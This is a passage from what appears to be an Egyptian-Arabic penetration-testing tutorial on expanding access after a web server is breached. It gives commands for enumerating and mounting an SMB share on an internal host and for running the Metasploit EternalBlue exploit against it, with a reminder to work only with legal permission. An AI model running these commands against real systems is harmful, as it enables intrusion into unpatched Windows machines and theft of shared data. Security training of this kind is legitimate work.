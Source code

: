 4. **استغل SMB:**
   ```cmd
   net view \\192.168.1.11
   net use Z: \\192.168.1.11\DATA
   ```

5. **هاجم بـ Metasploit:**
   ```
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST 192.168.1.11
   run
   ```

**ملاحظة:** كل الأوامر دي لازم تتعمل بإذن قانوني في بيئة اختبار! ⚖️

---

### **الخلاصة النهائية 😊**
Expanding Access يعني تكتشف وتستغل خدمات داخلية بعد اختراق سيرفر ويب. استخدمنا أوامر زي `netstat` و`nmap` وأدوات زي Metasploit عشان نلاقي ونهاجم الخدمات دي.

**خلاصة للطفل:** زي لما تفتش في بيت اللعب وتلاقي ألعاب سرية 🎮، وتستخدم مفتاح سحري عشان تفتحها وتاخد كل الحلويات! 👑🍭